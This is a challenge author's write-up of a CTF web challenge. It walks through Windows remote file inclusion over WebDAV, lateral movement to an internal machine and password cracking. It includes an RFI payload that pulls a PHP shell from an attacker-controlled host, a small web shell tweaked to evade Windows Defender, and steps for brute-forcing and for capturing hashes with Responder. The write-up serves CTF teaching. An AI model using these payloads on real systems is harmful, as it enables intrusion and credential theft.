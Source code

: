 ### fake onelinephp

> auther：w1nd
> point：windows remote file include + bypass windows defender + windows password brute

I'm  very sorry that the challenge was down in the beginning. The configuration had something wrong and the amount of requests was unexpected.

![image-20191203104632497](/Users/w1nd233/Library/Application Support/typora-user-images/image-20191203104632497.png)The design of this challenge is quite open. It is also very interesting to see the your guys solving the challenge. :)

The first thing you will see is [orange's one-line-php](https://github.com/orangetw/My-CTF-Web-Challenges#one-line-php-challenge). The purpose here is only to give a point to include file. The original solution needs to know the temporary file path, but it is not easy in this challenge.(Still some teams got it

Because the cloud service provider will block smb in China, so you can't use smb.So I turn on the webclient service on the windows server.

So just build a webdav server and the payload: 

`http://fakeonelinephp.d3ctf.io/?orange=\\xx.xx.xx.xx\webdav\shell.php`

```
version: '3.5'
services:
  webdav:
    image: bytemark/webdav
    volumes:
      - ./data/dav:/var/lib/dav
      - ./data/apache2:/usr/local/apache2
    environment:
      - ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND
      - LOCATION=/webdav
    ports:
      - 80:80
```

(However I see some team use smb successfully,emmmmm

When a remote file is included, windows defender will kill it, so you need to do a bit confuse to bypass it, there are many ways to bypass, for example

```php
@<?php
system(file_get_contents("php://input"));?>
```

~~ps: you guys upload your shell so frequently has caused windows defender to be the process with the highest CPU usage on the server~~

When you get shell you will find that there are only index.php, webdav and .git in the web directory. The webdav is empty, as I just want to remind you that the webclient is on, so there is only .git left. 

Investigate the use of git here. 

[Git hack](https://github.com/lijiejie/GitHack) we use most can only restore naive. You need to use `git reflog` + ` git reset` to restore hint2.txt and dict.txt
I got a tool from 0ops which can recover the hint2.txt and dict.txt directly https://github.com/gakki429/Git_Extract

hin2.txt
![](https://i.imgur.com/agJh7Yy.png)
dict.txt
![](https://i.imgur.com/4ssUepK.png)

hint2.txt shows the location of flag, on the desktop of internal machine, and the password dictionary is given.There is no unique solution at this step.

1. upload hydra to brute it
2. forward the 3389 port of internal machine to brute it

(of course your tools should bypass windows defender)

Most teams solve this challenge like that.In fact, I consider about limiting bruting when I designed the challenge, but multiple teams used the same environment, and it was very painful if someone make trouble , so I give up

3. get the hash and use john to brute it

I think this is more feasible in real env

find a tool to receive the hash `python2 Responder.py -I eth0 -f`
![](https://i.imgur.com/et06TEx.png)
use john to brute it
![](https://i.imgur.com/K0RCSAy.png)

you can use ipc to get the flag as you got the password

![](https://i.imgur.com/hr0yGi7.png)

Ps：

In fact, I saw many tools uploaded by other teams , but I did not deleted them deliberately , such as hydra, packaged html.zip
However, I feel that it is not good, as it will have some impact on other teams. For example, some teams were cheated by fake html.zip and fake hint.txt , I am very sorry about that , I will try to design a better challenge next year(maybe..